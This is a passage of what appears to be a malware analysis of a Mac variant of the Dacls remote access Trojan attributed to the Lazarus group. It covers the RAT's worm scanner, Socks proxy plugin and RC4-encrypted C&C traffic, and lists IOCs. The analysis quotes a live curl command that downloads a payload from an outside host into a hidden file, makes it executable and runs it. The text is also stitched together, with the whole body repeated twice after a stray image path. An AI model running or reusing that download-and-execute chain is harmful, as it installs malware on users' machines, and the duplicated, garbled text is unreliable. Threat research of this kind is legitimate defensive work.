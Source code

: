  This plugin sends the collected logs using HTTP post requests.     An interesting function in this plugin is the worm scanner. The “start_worm_scan” can scan a network subnet on ports 8291 or 8292. The subnet that gets scanned is determined based on a set of predefined rules. The following diagram shows the process of selecting the subnet to scan.     Socks plugin The Socks plugin is the new, seventh plugin added to this Mac Rat. It is similar to the RP2P plugin and acts as an intermediary to direct the traffic between bot and C&C infrastructure. It uses Socks4 for its proxy communications.     Network Communications C&C communication used by This Mac RAT is similar to the Linux variant. To connect to the server, the application first establishes a TLS connection and then performs beaconing and finally encrypts the data sent over SSL using the RC4 algorithm.       Both Mac and Linux variants use the WolfSSL library for SSL communications. WolfSSL is an open-source implementation of TLS in C that supports multiple platforms. This library has been used by several threat actors. For example, Tropic Trooper used this library in its Keyboys malware.    The command codes used for beaconing are the same as the codes used in Linux.dacls.  This is to confirm the identity of the bot and the server.    The RC4 key is generated by using a hard-coded key.     Variants and detection We also identified another variant of this RAT which downloads the malicious payload using the following curl command:  curl -k -o ~/Library/.mina https://loneeaglerecords.com/wp-content/uploads/2020/01/images.tgz.001 > /dev/null 2>&1 && chmod +x ~/Library/.mina > /dev/null 2>&1 && ~/Library/.mina > /dev We believe this Mac variant of the Dcals RAT is associated with the Lazarus group, also known as Hidden Cobra and APT 38, an infamous North Korean threat actor performing cyber espionage and cyber-crime operations since 2009.  The group is known to be one of the most sophisticated actors, capable of making custom malware to target different platforms. The discovery of this Mac RAT shows that this APT group is constantly developing its malware toolset. Malwarebytes for Mac detects this remote administration Trojan as OSX-DaclsRAT.       IOCs 899e66ede95686a06394f707dd09b7c29af68f95d22136f0a023bfd01390ad53 846d8647d27a0d729df40b13a644f3bffdc95f6d0e600f2195c85628d59f1dc6 216a83e54cac48a75b7e071d0262d98739c840fd8cd6d0b48a9c166b69acd57d d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd loneeaglerecords[.]com/wp-content/uploads/2020/01/images.tgz.001  67.43.239.146 185.62.58.207 50.87.144.227
 LogSend plugin The Logsend plugin contains three modules that:  Check connection to the Log serverScan network (worm scanner module)Execute long run system commands    This plugin sends the collected logs using HTTP post requests.     An interesting function in this plugin is the worm scanner. The “start_worm_scan” can scan a network subnet on ports 8291 or 8292. The subnet that gets scanned is determined based on a set of predefined rules. The following diagram shows the process of selecting the subnet to scan.     Socks plugin The Socks plugin is the new, seventh plugin added to this Mac Rat. It is similar to the RP2P plugin and acts as an intermediary to direct the traffic between bot and C&C infrastructure. It uses Socks4 for its proxy communications.     Network Communications C&C communication used by This Mac RAT is similar to the Linux variant. To connect to the server, the application first establishes a TLS connection and then performs beaconing and finally encrypts the data sent over SSL using the RC4 algorithm.       Both Mac and Linux variants use the WolfSSL library for SSL communications. WolfSSL is an open-source implementation of TLS in C that supports multiple platforms. This library has been used by several threat actors. For example, Tropic Trooper used this library in its Keyboys malware.    The command codes used for beaconing are the same as the codes used in Linux.dacls.  This is to confirm the identity of the bot and the server.    The RC4 key is generated by using a hard-coded key.     Variants and detection We also identified another variant of this RAT which downloads the malicious payload using the following curl command:  curl -k -o ~/Library/.mina https://loneeaglerecords.com/wp-content/uploads/2020/01/images.tgz.001 > /dev/null 2>&1 && chmod +x ~/Library/.mina > /dev/null 2>&1 && ~/Library/.mina > /dev We believe this Mac variant of the Dcals RAT is associated with the Lazarus group, also known as Hidden Cobra and APT 38, an infamous North Korean threat actor performing cyber espionage and cyber-crime operations since 2009.  The group is known to be one of the most sophisticated actors, capable of making custom malware to target different platforms. The discovery of this Mac RAT shows that this APT group is constantly developing its malware toolset. Malwarebytes for Mac detects this remote administration Trojan as OSX-DaclsRAT.       IOCs 899e66ede95686a06394f707dd09b7c29af68f95d22136f0a023bfd01390ad53 846d8647d27a0d729df40b13a644f3bffdc95f6d0e600f2195c85628d59f1dc6 216a83e54cac48a75b7e071d0262d98739c840fd8cd6d0b48a9c166b69acd57d d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd loneeaglerecords[.]com/wp-content/uploads/2020/01/images.tgz.001  67.43.239.146 185.62.58.207 50.87.144.227